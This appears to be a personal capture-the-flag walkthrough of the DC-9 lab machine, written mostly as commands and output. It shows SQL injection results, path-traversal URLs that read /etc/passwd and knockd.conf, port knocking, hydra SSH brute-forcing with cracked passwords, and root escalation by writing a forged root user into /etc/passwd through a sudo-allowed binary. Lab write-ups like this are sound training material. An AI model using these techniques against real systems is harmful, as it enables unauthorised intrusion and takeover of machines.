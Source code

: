 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# DC-9
# 19/2/2023

----------------------------------------------------
# SQLi
----------------------------------------------------
database
 Staff
 users

tables
 StaffDetails
 Userdetails
 Users

columns from Users table
 UserID
 Username
 Password

columns from UserDetails table
 id
 firstname
 lastname
 username
 password
 reg_date

username : admin
password : 856f5de590ef37314e7c3bdf6f8a66dc
           transorbital1


----------------------------------------------------
# nmap result
----------------------------------------------------
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

for x in 7469 8475 9842; do nmap -vv 192.168.107.209 -p$x; done
nmap -p 22 192.168.107.209     
PORT   STATE SERVICE
22/tcp open  ssh

----------------------------------------------------
# hydra (ssh)
----------------------------------------------------
hydra  -L users.txt -P pass.txt 192.168.107.209 ssh
[22][ssh] host: 192.168.107.209   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.107.209   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.107.209   login: janitor   password: Ilovepeepee


http://192.168.107.209/manage.php?file=../../../../../etc/passwd
http://192.168.107.209/manage.php?file=../../../../../etc/knockd.conf
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 


->cd .secrets-for-putin
cat passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
->hydra  -L users.txt -P pass.txt 192.168.107.209 ssh
[22][ssh] host: 192.168.107.209   login: fredf   password: B4-Tru3-001


----------------------------------------------------
# privEsc
----------------------------------------------------
->sudo -l
    (root) NOPASSWD: /opt/devstuff/dist/test/test
->cd /opt/devstuff
->ls
->cat test.py
    print ("Usage: python test.py read append")

->nano my
 shub1:$1$wBWi6EWv$LbWS.z3TjFdrNY4uvzr4e1:0:0:root:/root:/bin/bash
  

    sudo /opt/devstuff/dist/test/test my /etc/passwd
 su shub1
  shub

  you r root
  